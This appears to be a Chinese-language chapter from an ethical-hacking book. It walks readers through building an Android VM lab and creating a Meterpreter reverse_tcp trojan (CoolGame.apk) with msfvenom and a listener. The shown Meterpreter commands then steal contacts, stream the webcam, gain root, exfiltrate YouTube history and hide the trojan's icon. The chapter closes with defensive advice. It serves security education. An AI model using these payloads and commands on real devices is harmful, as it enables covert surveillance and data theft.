










# 9

黑客攻击移动设备


本章我们将探索移动设备黑客攻击的世界。你将使用世界上最流行的移动操作系统 Android 来构建一个虚拟机。然后，你将利用 Metasploit 入侵你的虚拟移动设备，并使用 Meterpreter 远程控制它，就像在第六章中入侵 PC 一样。你还将学习几种方法，以保护自己以及家人和朋友免受日益增长的移动攻击。

## 创建 Android 手机/平板虚拟机

我们希望以安全、伦理的方式进行 Android 移动设备的黑客攻击，因此我们将首先在虚拟黑客实验室中添加一个 Android 虚拟机。按照以下步骤下载并配置虚拟机。

1.  前往 [`www.osboxes.org/android-x86/`](https://www.osboxes.org/android-x86/)，向下滚动至 Android-x86 8.1-RC1 Oreo 部分。选择 **VirtualBox** 标签页，并点击 **下载** 按钮，下载 64 位版本。

1.  你的下载文件应该以 *.7z* 为扩展名。要解压文件，你需要下载并安装 7-Zip（适用于 Windows）、Archiver（适用于 Mac）或 p7zip-full（适用于 Linux）。安装好所需的软件后，解压 Android 虚拟机：在 Windows 上，右键点击文件并选择 **7-Zip**▶**解压到此处**；在 macOS 或 Linux 上，双击文件。虚拟机将解压到一个名为 *64bit* 的文件夹中。

1.  打开 VirtualBox 并点击 **新建**，打开创建虚拟机窗口。

1.  在名称和操作系统对话框中，在名称框中输入 **Android 8.1** 或类似名称，从类型下拉列表中选择 **Linux**，然后从版本下拉列表中选择 **其他 Linux（64 位）**。然后点击 **下一步**（在 Windows 上）或 **继续**（在 macOS 上）。

1.  在内存大小对话框中，在框内输入 **2048**，为虚拟机分配 2,048MB（2GB）的内存，然后点击进入下一个屏幕。

1.  在硬盘对话框中，选择 **使用现有虚拟硬盘文件**，点击浏览图标（带绿色箭头的文件夹）。在弹出的窗口中，点击 **添加**。然后找到并选择你解压缩后的 *64bit* 文件夹中的 *.vdi* 文件。

1.  点击进入硬盘对话框并选择 **创建** 来创建你的虚拟机。你的新 Android 8.1 虚拟机现在应该出现在 VirtualBox 的虚拟机列表中，如 图 9-1 所示。

1.  在列表中选择 Android 虚拟机，进入 **设置**，并选择 **显示** 标签页。在图形控制器下拉列表中，选择 **VBoxSVGA**。这样会更改显示设置，使我们能够看到 Android 智能手机虚拟机的图形用户界面（GUI）版本。

1.  仍然在显示标签页，确保 **启用 3D 加速** 旁边的复选框没有勾选。（不过，如果你的虚拟机一会儿无法正常工作，你可能需要开启 3D 加速。）

1.  切换到 **网络** 设置标签页，选择名为 **PublicNAT** 的 NAT 网络。这样可以让你的 Android 虚拟机与 Kali 虚拟机在虚拟黑客实验室中进行通信。



图 9-1：我们已经在 VirtualBox 中添加了一个 Android 8.1 虚拟机！

你现在准备启动你的 Android 虚拟机了！第一次启动可能需要几分钟（如果屏幕停留黑色超过一分钟，你可能需要重启虚拟机），但最终你会看到像图 9-2 所示的 Android 设备主屏幕。



图 9-2：你虚拟 Android 设备的主屏幕

在开始探索虚拟机之前，去 Android 虚拟机的菜单栏，点击**输入**▶**鼠标集成**，取消选中鼠标集成。保持鼠标集成开启会使得在 Android 虚拟机上控制指针变得困难。（因为 Android 虚拟机是为触摸屏设计的，所以在 Android 上使用鼠标本来就可能令人沮丧。）完成这些后，你就可以开始浏览你的虚拟 Android 设备了。

打开 Chrome 浏览器，浏览网页或打开联系人应用并添加几个联系人——你可以尝试任何你想做的事。Android 虚拟机几乎和真实的 Android 平板或手机一模一样，除了它不能打电话，且没有 GPS 等用于定位服务的传感器。记住，当你想离开 Android 虚拟机时，你可以使用右 CTRL 键（Windows）或左 COMMAND 键（Mac）重新控制鼠标，正如我们对待其他虚拟机时一样。

## 启动 Android 木马

现在我们准备好创建一些恶意软件了。就像我们在第六章中对 Windows 虚拟机所做的那样，我们将使用 Meterpreter 木马来感染并控制 Android 虚拟机。我们会把木马隐藏在一个名为*CoolGame.apk*的文件中。Android 使用*APK 文件格式*来分发和安装移动应用程序。按照这些步骤，你将看到攻击者是如何轻松欺骗 Android 用户安装并运行一个感染的应用程序。

1.  登录到你的 Kali 虚拟机并启动 Metasploit。

1.  在 Metasploit 的`msf6`命令提示符下，输入以下命令作为一行，替换`LHOST=`后的 Kali 虚拟机 IP 地址：

    ```
    msf6 > `sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=``10.0.9.4` `-f raw -o /var/www/html/share/CoolGame.apk`
    ```

    这会创建一个形式为 APK 文件的`android/meterpreter/reverse_tcp`有效载荷，并将其直接保存到 Kali 的共享网页文件夹中。Metasploit 将响应几行输出，最后会显示类似以下内容：

    ```
    `--snip--`
    Payload size: 10080 bytes
    Saved as: /var/www/html/share/CoolGame.apk
    ```

1.  启动 Apache web 服务器服务，这样你就可以从你的 Android 虚拟机下载文件：

    ```
    msf6 > `sudo service apache2 start`
    ```

1.  为了验证 Kali web 服务器是否处于活动状态，打开 Firefox 并访问*localhost/share*。你应该能看到文件列表中的*CoolGame.apk*。

1.  在 Metasploit 终端窗口中输入这四个命令，设置监听器以处理传入的 Meterpreter 连接：

    ```
    msf6 > `use exploit/multi/handler`
    msf6 exploit(multi/handler) > `set PAYLOAD android/meterpreter/reverse_tcp` PAYLOAD => android/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > `set LHOST` `10.0.9.4`
    LHOST => 10.0.9.4
    msf6 exploit(multi/handler) > `exploit`
    ```

Metasploit 现在正在监听传入连接！

## 感染 Android 虚拟机

现在我们将下载木马应用并故意感染你的虚拟 Android 设备。切换回你的 Android 虚拟机并按照以下步骤操作：

1.  打开 Chrome 浏览器，在地址栏中输入 Kali 虚拟机的 IP 地址，后面加上`/share/`，例如`10.0.9.4/share/`，如图 9-3 所示。

    图 9-3：从 Android 虚拟机的 Chrome 浏览器中导航到 Kali 虚拟机的*共享*文件夹，找到准备下载和安装的*CoolGame.apk* 木马应用程序。

1.  点击 APK 文件进行下载。首次尝试下载文件时，Android 会弹出一条消息，提示你授予 Chrome 访问设备文件存储的权限。点击**更新权限**，然后点击**允许**。

1.  再次点击你的 APK 文件进行下载。Chrome 通常会显示警告：“此类文件可能会危害您的设备。”点击**确定**继续下载该文件。

1.  点击 Android 虚拟机屏幕左上角的下拉箭头，你将看到如图 9-5 所示的下载管理器。点击列表中的 APK 文件名称以安装该应用程序。

1.  Android 将弹出另一个窗口，告诉你“您的手机不允许从此来源安装未知应用。”点击**设置**，然后滑动切换按钮以启用**允许此来源**设置。

    图 9-5：访问下载管理器

1.  点击 Android 屏幕底部黑色带状区域的返回按钮（左箭头），你将看到 Meterpreter 木马应用程序（名为 MainActivity）请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是你智能手机能够允许的所有权限！点击权限窗口右下角的**下一步**，然后点击**安装**。如果出现 Google Play Protect 警告，点击**继续安装**。

1.  点击 Android 虚拟机屏幕底部的主页按钮（中间的圆圈）。然后点击并向上拖动屏幕，显示已安装的应用程序。点击 MainActivity 图标以启动木马应用程序。

1.  切换回 Kali 虚拟机，你将看到 Meterpreter 中已打开一个新会话。

我们在 Android 设备上的木马已经与 Kali 建立了联系，并在等待指令。让我们看看一旦我们接管控制，能做些什么。

## 控制 Android 虚拟机

恶意移动应用的威胁与 PC 上恶意软件的威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问*大量*敏感信息：你拍过的每张图片和视频，所有联系人，通话和短信记录，GPS 位置信息历史记录，所有的网页搜索和 YouTube 视频观看记录，以及一个攻击者随时可以用来监视你的便携式摄像头和麦克风——这些都是你随身携带的。

要查看恶意黑客能用像 Meterpreter 木马这样的应用程序做些什么，在 Meterpreter 终端窗口中输入 `help`。你将看到所有可用的 Meterpreter 命令列表。除了我们在第六章中攻击 Windows PC 时看到的命令外，还有两部分专门针对 Android 设备的命令：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们控制 Android 设备的第一步是防止它进入睡眠状态。在 Meterpreter 提示符下输入以下命令：

```
meterpreter > **wakelock -w**
```

Meterpreter 会回复 `Wakelock was acquired`，如果你的 Android 设备之前处于休眠状态或显示为黑屏，屏幕会唤醒，设备会保持清醒直到你释放 wakelock。

如果你能在屏幕上同时显示 Android 和 Kali 虚拟机，运行 Meterpreter 命令并查看其效果会更简单。（这种方法也有助于查看攻击者在攻击用户设备时，用户看到的内容。）如果你有双显示器，可以把 Kali 放在一个显示器上，把 Android 放在另一个。如果你只有一个显示器，尝试将 Kali 和 Android 并排放置，这样你就可以在工作时同时看到两个界面。

### 正在运行的应用

一旦攻击者控制了移动设备，他们可以远程启动任何他们想要的应用。为了查看它是如何工作的，让我们列出用户在设备上安装的应用。在 Meterpreter 终端窗口中，输入命令`app_list`。Android 会列出智能手机上安装的所有应用，包括应用图标上显示的名称和该应用的包统一资源标识符（URI）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
 YouTube  com.google.android.youtube  false  true
```

行中的最后两项会告诉你应用是否正在运行以及它是否是操作系统安装的系统应用。在这里，`false` 值告诉我们 YouTube 应用当前没有运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已经安装在 Android 设备上，我们可以通过 Meterpreter 使用`app_run`命令和 YouTube 的包 URI 字符串来启动它。输入以下内容：

```
meterpreter > **app_run com.google.android.youtube**
```

你会看到 YouTube 应用在你的 Android 虚拟机中打开！切换回你的 Android 虚拟机并搜索视频 “Bryson Payne TED Talk”。你在 Android 虚拟机上的 YouTube 应用会显示该视频（尽管你可能听不到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在感染的智能手机或平板电脑上运行*任何应用*，完全不需要用户的许可或互动。尝试运行更多的应用，比如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到警告。尝试这个命令：

```
meterpreter > **app_uninstall com.google.android.gm**
```

你的 Android 虚拟机会弹出一个窗口，询问你是否要卸载 Gmail，如图 9-6 所示。点击**取消**以保留 Gmail 应用在设备上。较新的 Android 设备的安全设置会阻止 Meterpreter 木马卸载该应用。不过，通过超级用户权限（我们将在“窃取文件和日志探测”章节中获得，见第 117 页），我们可以删除应用的数据，甚至删除其主程序文件，而用户对此一无所知。



图 9-6：Android 在卸载应用之前会请求用户的许可。

在继续进行更阴险的黑客操作之前，让我们先运行最后一个应用，“联系人”：

```
meterpreter > **app_run com.android.contacts**
```

“联系人”应用将在你的 Android 虚拟机中打开。它打开时，我们将添加一个联系人，稍后在 Meterpreter 中窃取它。

1.  点击 Android“联系人”屏幕右下角的“添加联系人”图标（一个带加号的红色圆圈，+）。

1.  Android 会要求你添加一个账户来访问 Google 联系人。点击**取消**。（你不需要登录 Google 账户就可以在虚拟智能手机中添加联系人。）

1.  “创建新联系人”窗口将出现。输入你的名字，一个或两个虚假的电话号码，以及一个虚假的电子邮件地址，如图 9-7 所示。

1.  点击**保存**将新联系人存储在你的 Android 虚拟机中。如果你想添加更多联系人，请点击 Android 屏幕底部的返回箭头。



图 9-7：使用“联系人”应用添加带有虚假信息的新联系人

### 访问联系人

Meterpreter 有多个命令用于访问我们存储在智能手机中的敏感数据。在 Kali 的 Meterpreter 控制台中运行`help`，查找以`dump`开头的几个命令：

```
dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages
```

由于我们的 Android 虚拟机不是一台真实的 Android 设备，因此无法打电话或接收短信，但我们已经在前一部分中添加了一个联系人。现在我们来窃取它。

1.  在 Meterpreter 中运行`dump_contacts`命令：

    ```
    `meterpreter >` `dump_contacts` [*] Fetching 1 contact into list
    [*] Contacts list saved to: contacts_dump_*20210927103858*.txt
    ```

    Meterpreter 会显示它找到的联系人数量，并显示保存这些联系人的文件名以及该文件存储在你 Kali 机器上的位置。

1.  在 Kali 虚拟机中打开第二个终端窗口，并输入`cd`命令切换到你的主目录。然后输入命令`ls con*`列出 Meterpreter 保存的任何联系人文件：

    ```
    kali@kali:~# `ls con*`
    contacts_dump_*20210927103858*.txt 
    ```

    你会看到一个*.txt*文件，文件名为*contacts_dump_*，后面跟着时间戳（年、月、日和时间的数字格式）。

1.  输入`cat con`并按**TAB**键自动完成联系人文件名，然后按**ENTER**键显示文件内容：

    ```
    kali@kali:~# `cat contacts_dump_`*20210927103858*`.txt` `--snip--`
    #1
    Name: Bryson Payne
    Number: 404-555-1212
    Email: brysonpayne@myuniversity.edu
    ```

攻击者可以查看智能手机“联系人”应用中每个联系人完整的联系信息，还能读取你的短信和查看你最近打过的所有电话！

### 通过摄像头进行间谍监视

如果攻击者远程控制了你的智能手机，他们可以劫持设备的摄像头和/或麦克风。正如我们将看到的，这种间谍行为令人不安地简单。

1.  如果您有摄像头，可以通过虚拟机菜单栏中的**设备**▶**网络摄像头**来将其连接到 Android 虚拟机，并选择其名称。

1.  在连接摄像头后，重启您的 Android 虚拟机（选择**机器**▶**重置**并点击**重置**按钮）。然后通过点击 MainActivity 应用程序重新运行木马。

1.  在 Metasploit 中，按下**ENTER**键后出现错误`Meterpreter session closed`，然后输入命令`exploit`。

1.  当新的 Meterpreter 会话启动时，输入命令`webcam_list`查看您的摄像头是否已列出：

    ```
    meterpreter > `webcam_list`
    1: Back Camera
    ```

1.  使用命令`webcam_stream`查看来自摄像头的实时视频流：

    ```
    meterpreter > `webcam_stream`
    ```

网络摄像头将开始将视频（较慢）通过 Firefox 浏览器流式传输到您的 Kali 虚拟机，直到您关闭 Web 浏览器视频流，并在 Meterpreter 终端中按 CTRL-C（在 Windows 上）或 CONTROL-C（在 macOS 上）停止视频流。

如您所见，如果您的设备通过像我们构建的利用程序被攻破，攻击者可以通过智能手机的网络摄像头流式传输视频，就像他们可以访问您的笔记本或台式机摄像头一样。但与您的计算机摄像头不同，您可能会*随时*携带您的智能手机，您的朋友和家人也是如此。我们大多数人不希望像遮挡笔记本电脑摄像头那样遮挡智能手机的摄像头，因此更加重要的是小心我们安装的应用程序以及我们授予它们的权限。

### 盗取文件和查看日志

就像我们在 Windows 10 黑客攻击中所做的那样，我们可以使用上传和下载命令从 Android 设备的存储中上传和下载文件。如果用户授权超级用户权限，我们甚至可以通过设备的 shell 终端访问受保护的敏感文件。

1.  在 Meterpreter 中输入`shell`以进入 Android 终端 shell：

    ```
    meterpreter > `shell`
    Process 1 created.
    Channel 1 created.
    ```

1.  Android shell 在行首不会显示提示符，因此光标会位于空白行。输入命令`cd /`和`ls`以切换到根目录`/*`并列出设备上的所有文件夹：

    ```
    `cd /``ls`
    acct
    bugreports
    cache
    charger
    config
    d
    data`--snip--`
    ```

    *data*文件夹包含大量用户数据，包括用户的 YouTube、浏览器和其他应用程序历史文件。还记得我们在运行 YouTube 应用时搜索“Bryson Payne TED Talk”吗？如果某个应用存储了带有最近搜索结果的日志或历史文件，只要用户授予应用管理员或超级用户权限，我们就可以访问这些文件。

1.  在 Meterpreter Android shell 中输入`su`请求超级用户权限。

    ```
    `su`
    ```

1.  在 Android 虚拟机中，您将看到权限窗口弹出，如图 9-8 所示。点击**允许**以授予 Meterpreter 超级用户权限。

    图 9-8：授予 Meterpreter 超级用户权限

1.  使用`cd /data/data/com.google.android.youtube`进入目录，并通过`ls`列出该目录内容：

    ```
    `cd /data/data/com.google.android.youtube``ls`
    cache
    code_cache
    databases
    files
    no_backup
    shared_prefs
    ```

1.  *databases*文件夹包含应用程序使用的各种文件，其中包括一个存储 YouTube 搜索历史的文件。要找到该文件，输入命令`cd databases`和`ls`。

    ```
    `cd database``ls`
    ```

1.  在出现的文件短列表中，你会找到*history.db*文件。运行命令`cat history.db`查看设备的 YouTube 搜索历史记录。

    ```
    `cat history.db`
    ����h�!##�mat 3@tablesuggestionssuggestionsCREATE TABLE suggestions (_id INTEGER PRIMARY KEY,display1 TEXT UNIQUE ON CONFLICT REPLACE,display2 TEXT,query TEXT,date LONG)5I#indexsqlite_autoindex_suggestions_1suggestionW--ctableandroid_metada��677bryson payne ted talkbryson payne ted talkl0�/cale TEXT)
    ��7	bryson payne ted talk
    ```

    因为这是一个特殊的数据库格式文件，并非所有字符都是可打印的，但请查看最后一两行——我们搜索的“Bryson Payne TED Talk”可以以明文查看！如果你在 YouTube 上搜索其他视频，然后重新运行上面的命令(`cat history.db`)，你将看到新结果被添加到文件中。

1.  现在我们将下载 YouTube 搜索历史记录文件到 Kali 虚拟机。首先，我们需要将其复制到 Metasploit 木马应用的*files*文件夹中：

    ```
    `cp /data/data/com.google.android.youtube/databases/history.db /data/data/com.metasploit.stage/files`
    ```

1.  接下来，我们需要授予对复制文件的访问权限：

    ```
    `chmod 666 /data/data/com.metasploit.stage/files/history.db`
    ```

1.  按 CTRL-C（Mac 上是 CONTROL-C）退出 Android shell。Meterpreter 会提示是否终止*channel*（即 shell 连接）。输入`y`。

    ```
    ^C
    Terminate channel 1? [y/N] `y`
    ```

1.  你现在将回到普通的 Meterpreter 提示符，在哪里你可以将 YouTube 历史文件下载到 Kali 虚拟机的主文件夹（*/home/kali/*）：

    ```
    meterpreter > `download history.db`
    ```

1.  在一个单独的终端窗口中，输入`ls`确认*history.db*文件已成功下载。然后输入`cat history.db`，你将看到与在 Android shell 中看到的相同的文件内容，其中包含用户的 YouTube 搜索历史记录的明文。

恶意黑客可以使用这种技术保存你的 YouTube 搜索历史记录。然而，如果你是 FBI 的法医数据分析师或某公司的安全团队成员，你也可以使用相同的技术来发现犯罪分子是否观看了 YouTube 视频，学习如何制造炸弹或实施其他犯罪。

### 关闭铃声及更多设置

你可以通过 Meterpreter 更改设置，并防止用户恢复这些设置。例如，你可以通过在 Meterpreter 中输入以下命令关闭 Android 虚拟机的铃声：

```
meterpreter > **set_audio_mode -m 0**
[*] Ringer mode was changed to 0!
```

在你的 Android 虚拟机中，向上滑动主屏幕并选择**设置**。搜索“铃声”，点击**铃声音量**打开声音设置。铃声音量已经关闭，如图 9-9 所示。



图 9-9：当我们在 Meterpreter 中关闭铃声音量时，用户无法从设置界面重新打开它！

尝试将铃声音量滑块向右或向左滑动。你将无法做到！Meterpreter 通过开启“请勿打扰”模式（就像某些智能手机上滑动静音开关一样）将铃声音量锁定为关闭。用户必须在设置中找到“请勿打扰”并关闭它，才能恢复对智能手机铃声音量的控制。

还有另一个我们可以做的更改，用户无法覆盖。你可能已经想到，*如果我看到一个不认识的应用，比如 MainActivity，我可能会删除它*。所以，让我们隐藏 MainActivity 应用图标，让用户更难删除我们的木马应用。

在 Meterpreter 中，输入以下命令将 MainActivity 木马应用从用户的已安装应用列表中隐藏：

```
meterpreter > **hide_app_icon**
[*] Activity MainActivity was hidden
```

切换回 Android 虚拟机，点击主页按钮并向上滑动以显示你的应用。MainActivity 应用将从列表中消失，如图 9-10 所示。



图 9-10：隐藏用户屏幕上的 MainActivity 应用图标

通过隐藏应用图标，我们让用户难以卸载木马应用。如果攻击者一开始就隐藏了应用图标，用户甚至可能不知道木马应用已经被安装！然而，用户仍然可以卸载木马应用，即使他们看不见它。只需进入**设置**▶**应用信息**，点击**MainActivity**，然后点击**卸载**。请注意，停止或卸载应用会关闭 Kali 虚拟机中的 Meterpreter 会话。要重新安装木马应用，请像之前那样，进入 Android 的*下载*文件夹并点击*CoolGame.apk*文件。

## 防御恶意应用

为了保护自己免受恶意应用的侵害，务必小心你允许安装到智能手机上的应用。简而言之，安装之前先考虑清楚！在 Android 设备上使用 Google Play Protect，并将每一个安全弹窗视为重新考虑自己行为的机会。更好的是，避免从网上下载应用，或者从 Google Play 商店、Apple 的 App Store（如果你使用的是 iPhone）或智能手机制造商的商店以外的地方下载应用。

恶意应用也有可能进入官方应用商店。因此，在安装应用时，阅读该应用请求的权限非常重要。一款游戏或简单的应用不应该需要访问你的联系人、通话记录或短信，除非是增强现实或基于位置的应用，如*Pokémon Go*，应用不应该需要你的位置信息。如果一个应用请求的权限比你认为它应该需要的多，删除它，找一个权限较少却能完成你想要的功能的应用。同样地，如果你安装的应用之后请求额外的权限，尤其是请求超级用户权限时，你可以取消请求，甚至删除该应用。你*永远*不必给应用授权超出你想要的权限，大多数应用在没有授权过多权限的情况下也能正常运行。

如果你看到智能手机上出现你没有打开的应用（就像我们使用 Meterpreter 在 Android 虚拟机上打开 YouTube 时那样），立即将手机完全关闭（不要只是关闭屏幕）。按住手机侧面或顶部的电源键和音量增加键几秒钟，直到屏幕变黑（大多数 Android 设备都适用），或者使用其他设备搜索如何重启或重置你的设备。如果你在手机或平板上发现任何可疑活动，安装安全应用程序可能是个好主意。大多数移动设备都有免费或低成本的杀毒应用，能够检测恶意进程或通信，防止手机通过应用被黑客攻击。

最后，就像在桌面或笔记本电脑上一样，不要点击电子邮件或短信中的可疑链接。你可以使用 VirusTotal 来检查大多数链接，只需复制粘贴，就像在桌面上操作一样，但在智能手机上，你需要更加小心点击恶意链接。记住，如果攻击者能够欺骗你点击恶意链接或安装恶意应用，他们可以访问大量个人信息（甚至追踪你的定位！）。因此，告诉你的朋友、家人和你关心的其他人对任何通过短信或电子邮件收到的链接保持怀疑，并在安装应用时三思，尤其是当它来自未知来源时。

## 重点总结

在本章中，你创建了一个与真实 Android 智能手机或平板电脑完全相似且功能相同的 Android 虚拟机。你使用 Metasploit 创建了一个 Meterpreter 远程访问木马，几乎与第六章中为 Windows 10 创建的方式完全相同，并且你在 Android 虚拟机上安装并启动了木马。一旦你控制了 Android 设备，你就看到了攻击者如何运行应用程序、窃取联系人、上传和下载文件、劫持相机并窃听你的搜索历史。

你还学到了，防止移动设备感染恶意软件的最佳方法是避免安装不受信任的应用程序。即使一个应用看起来合法，如果它请求的权限超过了需要的范围，删除或卸载它。如果你的智能手机开始出现异常，重启它，删除所有可疑的应用程序，并在怀疑不小心安装了恶意软件时，考虑安装像防病毒扫描器这样的安全应用。

在下一章，你将尝试最后一个黑客活动。你会发现黑客攻击不仅限于计算机、智能手机和平板电脑。你还可以使用 Kali Linux 虚拟机中的工具，攻击你周围世界中其他联网设备，从智能电视到视频游戏主机，甚至更远。为了证明这一点，我们将黑进一辆汽车！
